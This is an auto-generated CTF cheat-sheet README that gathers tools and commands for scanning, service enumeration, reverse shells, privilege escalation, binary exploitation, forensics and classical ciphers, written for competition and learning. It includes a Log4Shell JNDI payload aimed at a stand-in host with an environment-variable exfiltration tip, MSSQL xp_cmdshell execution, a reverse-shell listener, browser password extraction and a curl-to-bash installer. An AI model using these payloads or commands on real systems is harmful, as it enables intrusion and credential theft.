

<p align="center">
  
</p>

DaturaCTF is a database for **ideas** and **tools** to use in CTF competitions. It's purpose is to help the user to find solutions and provide some tools to use when offline.

This database was mostly made from [CTF Katana](https://github.com/JohnHammond/ctf-katana) and [HackTricks](https://book.hacktricks.xyz), but also from tools found along the way. I do not own most of this content, I just gathered it in one place. Credit goes to the original authors, linked in the different sections.

Most of the tools are written in Python and are designed to be used in a Linux environment.

This file is auto generated using [build.py](build.py). To update it, update the README.md files in the subdirectories and run the build.py script.

# Table of Contents
* [Scanning](#scanning)
* [Services and Ports](#services-and-ports)
* [Reverse Shell](#reverse-shell)
* [Privilege Escalation](#privilege-escalation)
* [Binary Exploitation](#binary-exploitation)
* [Classic Exploits](#classic-exploits)
* [Reverse Engineering](#reverse-engineering)
* [Forensics](#forensics)
* [Cryptography](#cryptography)
* [Steganography](#steganography)
* [PDF Files](#pdf-files)
* [ZIP Files](#zip-files)
* [Hashes](#hashes)
* [OSINT](#osint)
* [Network](#network)
* [Jail Break](#jail-break)
* [Android](#android)
* [Esoteric Languages](#esoteric-languages)
* [Data Science](#data-science)
* [Signal processing](#signal-processing)
* [Wireless](#wireless)
* [Other CheatSheets](#other-cheatsheets)

<br><br>

# Scanning

⇨ [File Scanning](#file-scanning)<br>⇨ [Network Scanning](#network-scanning)<br>⇨ [Website Scanning](#website-scanning)<br>


## File Scanning


* `file`

    Deduce the file type from the headers.

* `binwalk`

    Look for embedded files in other files.

    
    ```bash
    binwalk <file>            # List embedded files
    binwalk -e <file>         # Extract embedded files
    binwalk --dd=".*" <file>  # Extract all embedded files
    ```

* `strings`

    Extract strings from a file.

* `grep`

    Search for a string in a file.


* `yara`

    Scan a file with Yara rules.

* [`file signatures`](https://en.wikipedia.org/wiki/List_of_file_signatures)

    A list of file signatures. The most common ones are :

    | Hex signature | File type | Description |
    | --- | --- | --- |
    | `FF D8 FF` (???) | JPEG | [JPEG](https://en.wikipedia.org/wiki/JPEG) image |
    | `89 50 4E 47 0D 0A 1A 0A` (?PNG) | PNG | [PNG](https://en.wikipedia.org/wiki/Portable_Network_Graphics) image |
    | `50 4B` (PK) | ZIP | [ZIP](https://en.wikipedia.org/wiki/Zip_(file_format)) archive |


## Network Scanning


* [`nmap`](https://nmap.org/)

    `nmap` is a utility for network discovery.

Classic scan
```	
nmap -sC -sV -O 192.168.0.0/24
```

SYN scan : Only send SYN (faster but no service detection)
```
nmap -sS 192.168.0.0/24
```

* [Nmap scripts](https://nmap.org/nsedoc/scripts/)
  
  `nmap` has a lot of scripts that can be used to scan for specific vulnerabilities. They are called with the `--script` option.

Run all dns scripts
```
nmap -sV --script dns-* <ip>
```

* [`traceroute`](https://en.wikipedia.org/wiki/Traceroute)

    See the path packets take to reach a host.

## Website Scanning


See [Web Enumeration](#web)

<br><br>

# Services and Ports


Assigned port numbers by IANA can be found at [IANA Port Numbers](https://www.iana.org/assignments/service-names-port-numbers/service-names-port-numbers.xhtml). But other services can also run on these ports.


FTP - File Transfer Protocol - 21/tcp
-------------------------------------

Transfer files between a client and server.
The anonymous credentials are anonymous:anonymous.

Connect to a server
```bash
ftp <ip> <port>  
```

Enumerate anonymous logins
```bash
nmap -v -p 21 --script=ftp-anon.nse <ip>
```


SSH - Secure Shell - 22/tcp
---------------------------

Securely connect to a remote server.

Connect to a server
```bash
ssh <user>@<ip> -p <port>
```

Local port forwarding
```bash
ssh -L <local_port>:<remote_host>:<remote_port> <user>@<ip> 
```

Transfer files
```bash
scp <file> <user>@<ip>:<path> # Local to remote
scp <user>@<ip>:<path> <file> # Remote to local
scp -r <dir> <user>@<ip>:<path> # whole directory
```

DNS - Domain Name System - 53/udp
---------------------------------

DNS is used to resolve domain names to IP addresses. `BIND` is the most common DNS implementation.

* [`nslookup`](https://en.wikipedia.org/wiki/Nslookup)

	Query a DNS server for information about a domain name.

* [`dig`](https://en.wikipedia.org/wiki/Dig_(command))

	Query a DNS server for information about a domain name.

* [Zone transfer attack](https://en.wikipedia.org/wiki/DNS_zone_transfer)

	Zone transfer is a method of transferring a copy of a DNS zone from a DNS server to another DNS server. This can be used to enumerate DNS records of a hidden zone if we know one of it's domain.

To perform a zone transfer, use `dig` with the `axfr` option.
```bash
dig axfr @<dns-server> <domain>
```

HTTP(S) - Hypertext Transfer Protocol - 80/tcp 443/tcp
------------------------------------------------------

See [Web](#web) for more information.


POP3 - Post Office Protocol - 110/all
-------------------------------------

POP3 is used to retrieve emails from a server.


SMB - Samba - 445/all
---------------------

Samba is a free and open-source implementation of the SMB/CIFS network protocol. It allows file and printer sharing between Linux and Windows machines.

A smb server can have multiple **shares** (~partition) with their own permissions. They can be listed with `smbmap` or `enum4linux` and accessed with `smbclient`.

* [`smbmap`](https://github.com/ShawnDEvans/smbmap)

	Emumerate SMB shares and their permissions.


List shares as anonymous user:
```
smbmap -H <ip> -u anonymous
```

Logged in as a user:
```
smbmap -H 10.10.10.125 -u <user> -p <password>
```

List recursively everything on the server.
```
smbmap -H 10.10.10.125 -u <user> -p <password> -r
```

The `-d` option specifies a domain. For exemple with the `localhost` domain (useful when NO_LOGON_SERVERS is returned)
```
smbmap -H 10.10.10.125 -u <user> -d localhost
```

* `enum4linux`

	Enumerate SMB shares and their permissions.

```
enum4linux 10.10.10.125
```

* `smbclient`

	Access SMB shares. You can use the `-m SMB2` option to force SMB2 protocol on weird servers.

Connect a share and enter the smb CLI:
```
smbclient \\\\10.10.139.198\\admins -U "ubuntu%S@nta2022"
```
Here you can use regular linux commands to navigate and `get`, `put` to transfer data.

LDAP - Lightweight Directory Access Protocol 389/all ldaps 636/all
-----------------------------------------------------------------

LDAP is used to store information about **users**, computers, and other resources. It is used by Active Directory.

A ldap DN (distinguished name) is a string that identifies a resource in the LDAP directory. It is composed of a series of RDNs (Relative Distinguished Names) separated by commas. Each RDN is composed of an attribute name and a value. For example, the DN `CN=John Doe,OU=Users,DC=example,DC=com` identifies the user `John Doe` in the `Users` organizational unit of the `example.com` domain.

The different attribute names are :

| Attribute | Description |
|-----------|-------------|
| `CN` | Common name |
| `L` | Locality name |
| `ST` | State or province name |
| `O` | Organization name |
| `OU` | Organizational unit name |
| `C` | Country name |
| `STREET` | Street address |
| `DC` | Domain component |
| `UID` | User ID |


* [`ldapsearch`](https://linux.die.net/man/1/ldapsearch)

	`ldapsearch` is a command line tool for querying LDAP servers.

Anonymously query a LDAP server for information about a domain name.
```bash
ldapsearch -H ldap://<ip>:<port> -x -s base '' "(objectClass=*)" "*" + # Without DN
ldapsearch -H ldap://<ip>:<port> -x -b <DN> # With DN
```


SQL - Structured Query Language
-------------------------------

| Port | Service | Description |
|------|---------|-------------|
| 1433 | MSSQL | Microsoft SQL Server |
| 3306 | MySQL | MySQL Database |
| 5432 | PostgreSQL | PostgreSQL Database |


MSSQL - Microsoft SQL Server - 1433/tcp
---------------------------------------

* `impacket` -> `mssqlclient.py`

	You can connect to a Microsoft SQL Server with `myssqlclient.py` knowing a username and password like so:

```
mssqlclient.py username@10.10.10.125
```

It will prompt you for a password. **If your password fails, the server might be using "Windows authentication", which you can use with:**

```
mssqlclient.py username@10.10.10.125 -windows-auth
```

If you have access to a Micosoft SQL Server, you can try and `enable_xp_cmdshell` to run commands. With `mssqlclient.py` you can try:

```
SQL> enable_xp_cmdshell
```

though, you may not have permission. If that DOES succeed, you can now run commands like:

```
SQL> xp_cmdshell whoami
```

SNMP - Simple Network Management Protocol 161/udp 162/udp
---------------------------------------------------------

* snmp-check

```
snmp-check 10.10.10.125
```


<br><br>

# Reverse Shell


* [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

    Compilation of useful payloads and bypass for Web Application Security and Pentest/CTF.

* [`netcat`](https://en.wikipedia.org/wiki/Netcat)

    A utility for reading from and writing to network connections using TCP or UDP.

Netcat classic listener
```bash
$ nc -nlvp 4444
```

* [`rlwrap`](https://github.com/hanslub42/rlwrap)

    Allows you to use the arrow keys in a reverse shell.

```bash
$ rlwrap nc -nlvp 4444
```

* Upgrade a shell to a TTY shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
<br><br>

# Privilege Escalation


* `sudo`

See what the current user is allowed to do
```bash
$ sudo -l
```


* [`PEAS`](https://github.com/carlospolop/PEASS-ng)

    Find common misconfigurations and vulnerabilities in Linux and Windows.

    Some payload can be found in the [Tools](Privilege%20Escalation/Tools/PEAS/) section.

Send linpeas via ssh
``` bash	
$ scp linpeas.sh user@domain:/tmp
```


* setuid Files

    Files with the setuid bit set are executed with the permissions of the owner of the file, not the user who started the program. This can be used to escalate privileges.

    [GTFOBins](https://gtfobins.github.io/) has a list of setuid binaries that can be used to escalate privileges.

    Custom setuid files can be exploited using [binary exploitation](#binary-exploitation).


Find files with the setuid bit set.
``` bash
$ find / -perm -u=s -type f 2>/dev/null
```

* [CVE-2021-3156](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3156)

    sudo versions before **1.9.5p2** are vulnerable to a heap-based buffer overflow. This can be exploited to gain root access. Very useful on older systems.

    Some payload can be found in the [Tools](Privilege%20Escalation/Tools/CVE-2021-3156/) section.


<br><br>

# Binary Exploitation

⇨ [ELF](#elf)<br>⇨ [Windows](#windows)<br>

Different types of exploit exists, the most common are:

| Name | Description |
| ---- | ----------- |
| [Format String](/Tools/ELF/6-format_string_vulns/) | Exploits format string functions to read and write in the program memory |
| [Overwriting stack variables](/Tools/ELF/1-overwriting_stack_variables/) | Change the value of a variable on the stack. |
| [ret2win](/Tools/ELF/3-ret2win_with_params/) | Overwrite the return address to point to an interesting function of the program |
| [Shellcode](/Tools/ELF/4-injecting_custom_shellcode/) | Inject shellcode in the program memory and execute it |
| [ret2libc](/Tools/ELF/5-return_to_libc/) | Overwrite the return address to point to an intersting function in libc |
| [Overwriting GOT](/Tools/ELF/8-overwriting_got/) | Overwrite the address of a function in the GOT to point to an interesting function |

But some security mechanisms exists and can be bypassed:

- ASLR<br>
    Randomization of the memory addresses of the program and the libraries.
    Solution: Leak an adress and calculate the offset between the leaked address and the address of the function you want to call.

- NX<br>
    No execution of the stack.

- Stack canaries<br>
    A random value is stored on the stack and checked before returning from a function.
    Solution: [Leak the canary](/Tools/ELF/9-bypassing_canaries/) and overwrite it with the correct value.

- PIE<br>
    Randomization of the memory addresses of the program.
    Solution: [Leak an adress](/Tools/ELF/7-leak_pie_ret2libc/)

Tools that will help you to exploit a binary:

* [gdb](https://en.wikipedia.org/wiki/GNU_Debugger)

    Most popular debugger for **dynamic** analysis.
    See [Reverse Engineering](#reverse%20engineering) for more info.

* [Ghidra](https://ghidra-sre.org/)

	Decompiler for binary files, usefull for **static** analysis.
	See [Reverse Engineering](#reverse%20engineering) for more info.

* [---x--x--x root root]()

    To exfiltrate or read a binary when you only have **execution rights**, you can load it with a library and use the library to read it.

    This needs that the binary is **dynamically linked**, and is easier if you know the name of the function you want to extract.

    Code for this libary is provided [here](Binary%20Exploitation/Tools/exec_only_dumper).

    [CTF time WU](https://ctftime.org/writeup/7670)<br>
    [DGHack 2022 WU](https://remyoudompheng.github.io/ctf/dghack2022/wanna_more_features.html)

## ELF


* [`checksec`](https://docs.pwntools.com/en/stable/commandline.html)

    A command-line tool that will check the security mechanisms of a binary.
    
* [`pwntools`](https://docs.pwntools.com/en/stable/about.html)

    A python library that can be used to interact with a binary.

* [`ROPgadget`](https://pypi.org/project/ROPGadget/)

    A command-line tool that can be used to find gadgets in a binary.

* [`ropper`](https://github.com/sashs/Ropper)

    A command-line tool that can be used to find gadgets in a binary.

## Windows


* [`winchecksec`](https://github.com/trailofbits/winchecksec)

	Checks the security features of a Windows binary.

* [`wine`](https://www.winehq.org/)

	Runs Windows programs on Linux.

* [`winedbg`](https://www.winehq.org/)

	Debugger for Windows programs on Linux.

Debug a Windows program on Linux with `winedbg` in gdb mode:
```bash
winedbg --gdb <program>
```

* [`gdb server for wine`](https://www.gnu.org/software/gdb/)

	Remote debugger inside wine. The (very large) package is called `gdb-mingw-w64` on most Linux distributions.

Start a gdb server inside wine: (found at https://stackoverflow.com/questions/39938253/how-to-properly-debug-a-cross-compiled-windows-code-on-linux)
```bash
$ wine Z:/usr/share/win64/gdbserver.exe localhost:12345 myprogram.exe
$ x86_64-w64-mingw32-gdb myprogram.exe
```

* [`Immunity Debugger`](https://www.immunityinc.com/products/debugger/)

	Debugger for Windows programs. I recommend using only GDB in order to learn less commands.

* [`pefile`](https://github.com/erocarrera/pefile)

	Get info about PE files.

* [dnSpy](https://github.com/0xd4d/dnSpy) 
	
	.NET debugger and assembly editor.

* [PEiD](https://www.aldeid.com/wiki/PEiD)

	Detects packers, cryptors, compilers, etc.

* jetBrains .NET decompiler

	exists

* [AutoIt](https://www.autoitscript.com/site/autoit/)

	Scripting language for Windows.
<br><br>

# Classic Exploits


* Heartbleed

	Metasploit module: `auxiliary/scanner/ssl/openssl_heartbleed`

	Be sure to use `set VERBOSE true` to see the retrieved results. This can often contain a flag or some valuable information.

* libssh - SSH

	`libssh0.8.1` (or others??) is vulnerable to an easy and immediate login. Metasploit module: `auxiliary/scanner/ssh/libssh_auth_bypass`. Be sure to `set spawn_pty true` to actually receive a shell! Then `sessions -i 1` to interact with the shell spawned (or whatever appropriate ID)

* Default credentials

    Unconfigured system can use the default credentials to login. Some can be found here: [DefaultCreds-Cheat-Sheet.csv](https://github.com/ihebski/DefaultCreds-cheat-sheet/blob/main/DefaultCreds-Cheat-Sheet.csv)

* Log4Shell

	Exploit on the Java library **Log4j**. Malicious code is fetched and executed from a remote JNDI server. A payload looks like `${jndi:ldap://exemple.com:1389/a}` and need to be parsed by Log4j.

	[Simple POC](https://github.com/kozmer/log4j-shell-poc)
	
	[JNDI Exploit Kit](https://github.com/pimps/JNDI-Exploit-Kit)

	[ECW2022 author's WU](https://gist.github.com/Amossys-team/e99cc3b979b30c047e6855337fec872e#web---not-so-smart-api)

	[Request Bin](https://requestbin.net/) Usefull for detection and environment variable exfiltration.
<br><br>

# Reverse Engineering

⇨ [Virtualisation](#virtualisation)<br>⇨ [Python](#python)<br>


* [ltrace](http://man7.org/linux/man-pages/man1/ltrace.1.html) and [strace](https://strace.io)

	Repport library, system calls and signals.

* [gdb](https://en.wikipedia.org/wiki/GNU_Debugger)

	Most used debugger, can be impoved with [GEF](https://hugsy.github.io/gef/) or [PEDA](https://github.com/longld/peda).

Install GEF on top of gdb:
```bash
bash -c "$(curl -fsSL https://gef.blah.cat/sh)"
```

* [Ghidra](https://ghidra-sre.org/)

	Decompiler for binary files, usefull for static analysis.

Automaticaly create a ghidra project from a binary file using [this script](Reverse%20Engineering/Tools/ghidra.py):
```bash
ghidra.py <file>
```

* [Hopper](https://www.hopperapp.com)

	Disassembler.

* [Binary Ninja](https://binary.ninja)

	Good for multithreaded analysis.


* [IDA](https://www.hex-rays.com/products/ida/support/download.shtml)

	Proprietary reverse engineering software, known to have the best disassembler. The free version can only disassemble 64-bit binaries.

* [radare2](https://github.com/radareorg/radare2)

	Binary analysis, disassembler, debugger.


* Compiling & running ASM code:

	You can convert ASM functions from assembly and run them as C functions like the following:

	`asm4.S`
	```asm
	.intel_syntax noprefix
	.global asm4
	asm4:
		push   ebp
		mov    ebp,esp
		push   ebx
		sub    esp,0x10
		mov    DWORD PTR [ebp-0x10],0x27d
		mov    DWORD PTR [ebp-0xc],0x0
		jmp    label2
	label1:
		add    DWORD PTR [ebp-0xc],0x1
	label2:
		mov    edx,DWORD PTR [ebp-0xc]
		mov    eax,DWORD PTR [ebp+0x8]
		add    eax,edx
		movzx  eax,BYTE PTR [eax]
		test   al,al
		jne    label1
		mov    DWORD PTR [ebp-0x8],0x1
		jmp    label3
	label4:
		mov    edx,DWORD PTR [ebp-0x8]
		mov    eax,DWORD PTR [ebp+0x8]
		add    eax,edx
		movzx  eax,BYTE PTR [eax]
		movsx  edx,al
		mov    eax,DWORD PTR [ebp-0x8]
		lea    ecx,[eax-0x1]
		mov    eax,DWORD PTR [ebp+0x8]
		add    eax,ecx
		movzx  eax,BYTE PTR [eax]
		movsx  eax,al
		sub    edx,eax
		mov    eax,edx
		mov    edx,eax
		mov    eax,DWORD PTR [ebp-0x10]
		lea    ebx,[edx+eax*1]
		mov    eax,DWORD PTR [ebp-0x8]
		lea    edx,[eax+0x1]
		mov    eax,DWORD PTR [ebp+0x8]
		add    eax,edx
		movzx  eax,BYTE PTR [eax]
		movsx  edx,al
		mov    ecx,DWORD PTR [ebp-0x8]
		mov    eax,DWORD PTR [ebp+0x8]
		add    eax,ecx
		movzx  eax,BYTE PTR [eax]
		movsx  eax,al
		sub    edx,eax
		mov    eax,edx
		add    eax,ebx
		mov    DWORD PTR [ebp-0x10],eax
		add    DWORD PTR [ebp-0x8],0x1
	label3:
		mov    eax,DWORD PTR [ebp-0xc]
		sub    eax,0x1
		cmp    DWORD PTR [ebp-0x8],eax
		jl     label4
		mov    eax,DWORD PTR [ebp-0x10]
		add    esp,0x10
		pop    ebx
		pop    ebp
		ret
	```

	`asm4.c`
	```c
	#include<stdio.h>
	extern int asm4(char* s);

	int main(){
	    char *str = "picoCTF_d899a";
	    printf("%X", asm4(str));
	    return 0;
	}
	```
	`bash`
	```bash
	$ gcc -m32 -o a asm4.c asm4.S
	$ ./a
	```

* Punchcards

	[Punch card emulator](http://tyleregeto.com/article/punch-card-emulator)


* GameBoy ROMS

	Packages to run GameBoy ROMS: `visualboyadvance` or `retroarch`


## Virtualisation


In order to run some system, it is nessesary to use virtualisation.

## Python


* [`uncompyle6`](https://github.com/rocky/python-uncompyle6/)

	Decompiles Python bytecode to equivalent Python source code. Support python versions to to 3.8.

	Legend has it that it exists an option (maybe -d) that can suceed when the regular decompilation fails.

* [Decompyle++](https://github.com/zrax/pycdc)

	Less reliable, but claims to decompile every python versions.

* [Easy Python Decompiler](https://sourceforge.net/projects/easypythondecompiler/)

	Windows GUI to decompile python bytecode.

* [Pyinstaller Extractor](https://github.com/extremecoders-re/pyinstxtractor)

	Extracts the python bytecode from pyinstaller windows executables. Can be decomplied  after.

```bash
python3 pyinstxtractor.py <filename>
```
<br><br>

# Forensics

⇨ [Disk Image](#disk-image)<br>⇨ [Logs](#logs)<br>⇨ [Images](#images)<br>⇨ [Memory Dump](#memory-dump)<br>⇨ [Docker](#docker)<br>


* `binwalk`

	A command-line tool to carve files out of another file.

Extract files:
```bash
binwalk -e [filename]
```

* [`yara`](https://virustotal.github.io/yara/)

	Find patterns in files. Rules can be found in the [Yara-Rules](https://github.com/Yara-Rules/rules)

Usage
```bash
yara <rules.yar> <file>
```


* [`dumpzilla`](http://www.dumpzilla.org/)

	A [Python](https://www.python.org/) script to examine a `.mozilla` configuration file, to examine downloads, bookmarks, history or bookmarks and registered passwords. Usage may be as such:

```
python dumpzilla.py .mozilla/firefox/c3a958fk.default/ --Downloads --History --Bookmarks --Passwords
```


* Keepass

	`keepassx` can be installed on Ubuntu to open and explore Keepass databases. Keepass databases master passwords can be cracked with `keepass2john`.

* [Magic Numbers](https://en.wikipedia.org/wiki/Magic_number_(programming)#Magic_numbers_in_files) 
	The starting values that identify a file format. These are often crucial for programs to properly read a certain file type, so they must be correct. If some files are acting strangely, try verifying their [magic number] with a [trusted list of file signatures](https://en.wikipedia.org/wiki/List_of_file_signatures).

* [`hexed.it`](https://hexed.it/)

	An online tool that allows you to modify the hexadecimal and binary values of an uploaded file. This is a good tool for correcting files with a corrupt [magic number]


* `foremost`

	A command-line tool to carve files out of another file. Usage is `foremost [filename]` and it will create an `output` directory.

```
sudo apt install foremost
```


* [`hachoir-subfile`](https://pypi.python.org/pypi/hachoir-subfile/0.5.3)

	A command-line tool to carve out files of another file. Very similar to the other tools like `binwalk` and `foremost`, but always try everything!


* [TestDisk](https://www.cgsecurity.org/Download_and_donate.php/testdisk-7.1-WIP.linux26.tar.bz2) 
	A command-line tool, used to recover deleted files from a file system image. Handy to use if given a `.dd` and `.img` file etc.

* [photorec](https://www.cgsecurity.org/wiki/PhotoRec) 
	Another command-line utility that comes with `testdisk`. It is file data recovery software designed to recover lost files including video, documents and archives from hard disks, CD-ROMs, and lost pictures (thus the Photo Recovery name) from digital camera memory. PhotoRec ignores the file system and goes after the underlying data, so it will still work even if your media's file system has been severely damaged or reformatted.


## Disk Image


* [Autopsy](https://www.autopsy.com/download/)

    Browse the filesystem and extract files from a disk image.

* [`mount`]

    Mount a disk image. I recommand to use a virtual machine to mount the disk image. This way you can browse the filesystem and extract files without risking to damage your system.

## Logs


Looking at logs takes time but can lead to valuable information.

* [Windows Event Logs](https://en.wikipedia.org/wiki/Event_Viewer)

    Windows logs a *lot* of information. It can be read using `mmc.exe`, under "Windows Logs".

    The categories are:
    | Category | Description |
    | --- | --- |
    | Application | Programs (started, stopped ...) |
    | Security | Security events (login, logout, ...) |
    | System | Changes to system (boot, shutdown, peripherals ...) |
    | Setup | System maintainance (update logs, ...) |

* [Linux logs](https://fr.wikipedia.org/wiki/Syslog)

    Linux logs are stored in `/var/log/`. The most important ones are:
    | File | Description |
    | --- | --- |
    | `auth.log` or `secure` | Authentication events (login, logout, ...) |
    | `syslog` or `messages` | General messages (system wide) |
    | `dpkg.log` | Package managment |
    | `kern.log` | Kernel messages |
    | `btmp` | Failed login attempts |
    | `wtmp` | Login/logout history |
    | `lastlog` | Last login for each user |

    `btmp`, `wtmp` and `lastlog` can be read using `last <file>`

    Other applications can have their own logs in /var/logs.

* [Apache logs](https://httpd.apache.org/docs/2.4/logs.html)
  
    Apache logs are often stored in `/var/log/apache2/`. The most important ones are:
    | File | Description |
    | --- | --- |
    | `access.log` | HTTP requests |
    | `error.log` | HTTP errors |
    | `other_vhosts_access.log` | HTTP requests from other virtual hosts |

    `access.log` can be read using `tail -f <file>` or with `grep` to filter the logs.

    It can also be imported into a [pandas dataframe](https://pandas.pydata.org/pandas-docs/stable/reference/api/pandas.read_csv.html) using this snippet:
    ```python
    # Read access.log file
    df = pd.read_csv(filename,
                sep=r'\s(?=(?:[^"]*"[^"]*")*[^"]*$)(?![^\[]*\])',
                engine='python',
                usecols=[0, 3, 4, 5, 6, 7, 8],
                names=['ip', 'datetime', 'request', 'status', 'size', 'referer', 'user_agent'],
                na_values='-',
                header=None
                    )

    # Extract the date from the datetime column
    df['date'] = df['datetime'].str.extract(r'\[(.*?):', expand=True)

    # Extract the time from the datetime column
    df['time'] = df['datetime'].str.extract(r':(.*?)\s', expand=True)
    ```


## Images


* `pngcheck`

	Check if a **PNG** file is valid. If it is not, displays the error.


* [`pngcsum`](http://www.schaik.com/png/pngcsum/pngcsum-v01.tar.gz)

	Correct the CRCs present in a **PNG** file.


* [https://github.com/sherlly/PCRT](https://github.com/sherlly/PCRT)

	Correct a corrupted PNG file.

	Utility to try and correct a **PNG** file. 
	Need to press enter to show the file.

* Repair image online tool

    Good low-hanging fruit to throw any image at: [https://online.officerecovery.com/pixrecovery/](https://online.officerecovery.com/pixrecovery/)


* [Analysis Image] ['https://29a.ch/photo-forensics/#forensic-magnifier']

	Forensically is free online tool to analysis image this tool has many features like  Magnifier, Clone Detection, Error Level analysis, Noise Analusis, level Sweep, Meta Data, Geo tags, Thumbnail Analysis , JPEG Analysis, Strings Extraction.


## Memory Dump


Memory dumps are captures of the state of the memory at a given time. It contains all the loaded files, processes and data that was used at this moment.

Memory dumps can be analyzed using the [Volatility Framework](https://www.volatilityfoundation.org/)

I recommand using **volatility 3** so you do not have to bother with profiles (finding it was often a pain in vol2)

The documentation can be found [here](https://volatility3.readthedocs.io)

* [Online Cheat Sheet](https://blog.onfvp.com/post/volatility-cheatsheet/)

* [Windows Memory Forensics](https://volatility3.readthedocs.io/en/latest/getting-started-windows-tutorial.html#)

* [Linux Memory Forensics](https://volatility3.readthedocs.io/en/latest/getting-started-linux-tutorial.html)

* Most useful plugins

| Plugin | Description |
| --- | --- |
| `pslist` | List all processes |
| `filescan` | List all files |
| `filedump` | Dump a file from memory |
| `netscan` | List all network connections |

* Browser profile

    The browser profile contains a lot of information about the user, such as bookmarks, history, cookies, stored passwords, etc.

In Windows:
| Browser | Location |
| --- | --- |
| Chrome | `C:\Users\<username>\AppData\Local\Google\Chrome\User Data\Default` |
| [Firefox](https://support.mozilla.org/en-US/kb/profiles-where-firefox-stores-user-data) | `C:\Users\<username>\AppData\Roaming\Mozilla\Firefox\Profiles\<profile>` |
| Edge | `C:\Users\<username>\AppData\Local\Microsoft\Edge\User Data\Default` |

In Linux:
| Browser | Location |
| --- | --- |
| Chrome | `~/.config/google-chrome/Default` |
| [Firefox](https://support.mozilla.org/en-US/kb/profiles-where-firefox-stores-user-data) | `~/.mozilla/firefox/<profile>` |


## Docker


* [Dive](https://github.com/wagoodman/dive)

    Explore layers of a docker image.
<br><br>

# Cryptography

⇨ [AES](#aes)<br>⇨ [Simple Codes](#simple-codes)<br>⇨ [RSA](#rsa)<br>

* [SageMath](https://www.sagemath.org/)

    Powerful mathematics software, very useful for crypto and number theory.

## AES


[AES](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard) A.K.A. Rijndael is a **symmetric** cryptographic algorithm. It uses the same key for encryption and decryption.

* AES ECB

	The "blind SQL" of cryptography... leak the flag out by testing for characters just one byte away from the block length.

## Simple Codes


* [DCode](https://www.dcode.fr)

	Support many crypto algorithms, but also some interesting tools.

* [CyberChef](https://gchq.github.io/CyberChef/)

	Online tool to encrypt/decrypt, encode/decode, analyse, and perform many other operations on data.


* [Keyboard Shift](https://www.dcode.fr/keyboard-shift-cipher)

	ROT but using the keyboard layout.


* XOR

	Simple logic operation that can be used to encrypt a message with a key.

	Encryption: c = m ^ k
	Decryption: m = c ^ k

* [Caesar Cipher](https://www.dcode.fr/caesar-cipher)

	Shift cipher using the alphabet. Different alphabets can also be used. Vulnerable to **frequency analysis**.


* [Atbash Cipher](https://en.wikipedia.org/wiki/Atbash) 
	
	Shift cipher using the alphabet in reverse order. Vulnerable to frequency analysis.

* [Vigenere Cipher](https://en.wikipedia.org/wiki/Vigen%C3%A8re_cipher) 
	
	Shift cipher using a key. The key is repeated to match the length of the message.

	| Type    | Content     |
    |---------|-------------|
	| Message | HELLO WORLD |
	| Key     | ABCDE FABCD |
	| Cipher (sum)%26  | HFNLP XQEMK |


* [Gronsfeld Cipher](http://rumkin.com/tools/cipher/gronsfeld.php)

	Variant of the Vigenere cipher using a key of numbers instead of letters.

* [Beaufourt Cipher](https://www.dcode.fr/beaufort-cipher)


* [Bacon Cipher](https://en.wikipedia.org/wiki/Bacon%27s_cipher)

	A substitution cipher that replaces each character with five characters from a set of two (A and B is used most of the time). If we look at A as 0 and B as 1 it is a special encoding to binary numbers, where the character A has the value of binary `b00000`. Easy to recognize, because the ciphertext only contains two characters (e.g.: A and B) and the length of the ciphertext is divisible by 5. Example: `AAABB AAABA ABBAB AAABB AABAA AAAAB AAAAA AAABA ABBAB ABBAA`.

        [Online tool](http://rumkin.com/tools/cipher/baconian.php)

* [Python random module cracker/predictor](https://github.com/tna0y/Python-random-module-cracker)

	Python's `random` module can be predicted from previous values. This tool can be used to predict the next value from a list of previous results.

* Transposition Cipher


* [LC4](https://www.schneier.com/blog/archives/2018/05/lc4_another_pen.html) 
	This is an adaptation of RC4... just not. There is an implementation available in Python.
	[https://github.com/dstein64/LC4/blob/master/documentation.md](https://github.com/dstein64/LC4/blob/master/documentation.md)

* Elgamal

* Affine Cipher

* Substitution Cipher (use quip quip!)

	[https://quipqiup.com/](https://quipqiup.com/)

* Railfence Cipher

	[http://rumkin.com/tools/cipher/railfence.php](http://rumkin.com/tools/cipher/railfence.php)


* [Playfair Cipher](https://en.wikipedia.org/wiki/Playfair_cipher) 
	racker: [http://bionsgadgets.appspot.com/ww_forms/playfair_ph_web_worker3.html](http://bionsgadgets.appspot.com/ww_forms/playfair_ph_web_worker3.html)

* Polybius Square

	[https://www.braingle.com/brainteasers/codes/polybius.php](https://www.braingle.com/brainteasers/codes/polybius.php)

* The Engima

	[http://enigma.louisedade.co.uk/enigma.html](http://enigma.louisedade.co.uk/enigma.html),
	[https://www.dcode.fr/enigma-machine-cipher](https://www.dcode.fr/enigma-machine-cipher)


* Two-Time Pad

* [International Code of Signals Maritime](https://en.wikipedia.org/wiki/International_Code_of_Signals) 
	First drafted by the British Board of Trade in 1855 and adopted as a world-wide standard on 1 January 1901. It is used for communications with ships, but also occasionally used by geocaching mystery caches (puzzle caches), CTFs and various logic puzzles. You may want to give a look at the tool [maritime flags translator].


* Daggers Cipher

The daggers cipher is another silly text-to-image encoder. This is the key, and you can
find a decoder on [https://www.dcode.fr/daggers-alphabet](https://www.dcode.fr/daggers-alphabet).



* Hylian Language (Twilight Princess)

The Hylian language is another silly text-to-image encoder. This is the key, and you can
find a decoder on [https://www.dcode.fr/hylian-language-twilight-princess](https://www.dcode.fr/hylian-language-twilight-princess).


* Hylian Language (Breath of the Wild)

The Hylian language is another silly text-to-image encoder. This is the key, and you can
find a decoder on [https://www.dcode.fr/hylian-language-breath-of-the-wild](https://www.dcode.fr/hylian-language-breath-of-the-wild).


* Sheikah Language (Breathe of the Wild)

The Sheikah language is another silly text-to-image encoder. This is the key, and you can
find a decoder on [https://www.dcode.fr/sheikah-language](https://www.dcode.fr/sheikah-language).


* Hexahue Alphabet 

The hexhue is an another tex-to-image enocder. you can find a decoder
on [https://www.boxentriq.com/code-breaking/hexahue](https://www.boxentriq.com/code-breaking/hexahue)


* References to DICE, or EFF

